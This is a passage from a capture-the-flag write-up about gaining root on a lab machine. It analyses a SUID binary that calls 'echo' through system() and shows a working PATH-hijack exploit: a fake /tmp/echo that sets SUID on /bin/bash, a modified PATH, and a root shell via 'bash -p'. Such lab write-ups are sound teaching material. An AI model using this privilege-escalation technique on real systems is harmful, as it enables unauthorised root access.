-rw-r-----  1 binexgod binexgod    5 May  8  2021 .vboxclient-seamless.pid
-rwsr-xr-x  1 root     binexgod 8824 Mar 15  2021 vuln
-rwxr-xr--  1 root     binexgod  327 Mar  8  2021 vuln.c
-rw-------  1 binexgod binexgod   51 May  8  2021 .Xauthority
-rw-------  1 binexgod binexgod   82 May  8  2021 .xsession-errors
-rw-------  1 binexgod binexgod   82 May  8  2021 .xsession-errors.old
$ cp secret_of_heaven /tmp
$
```

The file is a 64 bit ELF.

```
┌──(giu㉿kali)-[~/Downloads/machine]
└─$ scp guardian@10.113.183.191:/tmp/vuln .
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
guardian@10.113.183.191 s password: 
vuln     

┌──(giu㉿kali)-[~/Downloads/machine]
└─$ file vuln            
vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=5a6f0108a2b7324107c80bd42e5789a8478470ec, not stripped
                                                                                                                                                                      
┌──(giu㉿kali)-[~/Downloads/machine]
└─$ pwn checksec vuln  
[*] '/home/giu/Downloads/machine/vuln'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No                                                                                                                                           
```

Analyzing the assembly code, we can see that `main` simply calls `system` function with the following command argument: `/usr/bin/env echo Get out of heaven lol`



The challenge name suggests something related to PATH environment variable, so I thought to gain a privesc through the binary by overwriting `$PATH`. In general, we are able to change the behavior of any command invoked inside a program by simply creating a fake command with the same name and changing `$PATH` variable.

The `system` function executes the command ‘`/usr/bin/env echo Get out of heaven lol`’

- For `env` command, the full path is specified, so our trick will not work because it will bypass the PATH search
- The only command remained to hijack is `echo`

The plan is to create a fake command that adds SUID to `/bin/bash`, so we can execute it and gain a shell as `root`. The reason this will work is that SUID for `/bin/bash` will be set by our fake command inside `vuln` binary, which has itself a SUID set. Consequently the SUID on `/bin/bash` will be set as user `root`.

```
$ echo 'chmod +s /bin/bash' > /tmp/echo && chmod +x /tmp/echo && export PATH=/tmp:$PATH
$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
$ ./vuln
$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```

At this point, we can simply execute `/bin/bash` with `-p` parameter to not drop privileges.

```
$ /bin/bash -p
$ whoami
root
$ cd /root
$ ls
root.txt
$ cat root.txt
THM{REDACTED}
```
